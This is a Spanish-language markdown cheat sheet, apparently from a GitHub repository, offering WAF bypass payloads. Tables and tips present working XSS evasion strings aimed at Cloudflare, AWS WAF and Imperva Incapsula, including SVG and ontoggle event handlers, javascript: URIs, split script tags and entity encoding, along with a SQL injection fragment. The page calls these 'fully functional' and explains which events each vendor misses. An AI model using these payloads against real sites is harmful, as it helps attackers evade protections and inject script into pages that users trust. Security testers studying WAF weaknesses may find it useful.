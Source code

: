 ### Ejemplificando: totalmente real :bomb:	

> Este es un ejemplo totalmente real de bypass (evasión) de un WAF básico:

| **`<script>alert(1)</script>`** | **Variantes de evasión**                                                                                          |
|-------------------------------|---------------------------------------------------------------------------------------------------------------------|
|                               | `&#x3C;svg/onload=prompt(1)&#x3E;`                                                                                  |
|                               | `<svg><set onbegin=alert(1) attributeName=x></set></svg>`                                                           |

> Obtendríamos el mismo efecto, pero de formas totalmente distintas, es decir, tendríamos un bypass exitoso… Veamos algunos payloads totalmente funcionales para las plataformas más conocidas de la nube:

| **TIPO DE WAF**       | **¿INVENCIBLE?**                                                                                                         | **TÉCNICAS ÚTILES**                                                                                                                       | **EJEMPLOS**                                                                                                                                                                                                                           |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **CLOUDFLARE**        | Normaliza, decodifica y usa ML, pero no es invencible.  <br>💡 *Cloudflare suele filtrar `onload`, pero no siempre bloquea `ontoggle`, `onanimationstart`, `xlink:href`, etc.* | Se puede usar SVG y eventos raros, codificar en hexadecimal/Unicode o utilizar polimorfismo de atributos                                 | `<svg><desc onload=alert(1)>x</desc></svg>`<br>`<svg/onload=confirm(1)>`<br>`<details/open/ontoggle=alert(1)>`<br>`<math><mi xlink:href="javascript:alert(1)"></mi></math>`                                                               |
| **AWS**               | AWS WAF por defecto es débil si no está bien configurado, se puede evadir con codificación simple o fragmentación. <br>💡 *En AWS WAF clásico, codificar el JavaScript o dividir los eventos suele pasar porque no normalizan bien el input antes de aplicar las reglas.* | Se puede utilizar la doble codificación, fractura de cadenas (*split injection*) o espacios alternativos (`/**/`, `%20`, `%0d%0a`)       | `%27/**/OR/**/1=1--%20`<br>`<scr<script>ipt>alert(1)</scr<script>ipt>`<br>`<img src=x onerror=confirm(1)>`<br>`<a href="java&#x73;cript:alert(1)">Click</a>`                                                                         |
| **IMPERVA INCAPSULA** | El WAF es más fuerte que AWS, funciona bien contra payloads directos, pero puedes evadirlo con técnicas combinadas. <br>💡 *Imperva suele filtrar cosas como `<script>`, pero a veces no detecta bien splits en JavaScript o eventos menos comunes como `onpointerover`.* | A utilizar codificación Unicode, mutación de palabras clave (`alert` → `a\l\ert`) y uso de atributos no estándar                          | `<x onpointerover="prompt(1)">hover me</x>`<br>`<script>this</script>`<br>`<input autofocus onfocus=alert(1)>`<br>`<svg><set onbegin=confirm(`${document.domain}`) attributeName=x></set></svg>`<br>`&#x3C;svg/onload=confirm(1)&#x3E;`<br>`<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>` |

- 🚀 Cloudflare suele filtrar onload, pero no siempre bloquea ontoggle, onanimationstart, xlink:href, etc. 🚀
- 🚀 En AWS WAF clásico, codificar el javascript: o dividir los eventos suele pasar porque no normalizan bien el input antes de aplicar las reglas. 🚀
- 🚀Imperva suele filtrar cosas como <script> pero a veces no detecta bien splits en JavaScript o eventos menos comunes como onpointerover.  🚀

```
:skull_and_crossbones:	<svg><set onbegin=confirm`${document.domain}` attributeName=x></set></svg>
```
```
:skull_and_crossbones:	&#x3C;svg/onload=confirm(1)&#x3E;<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```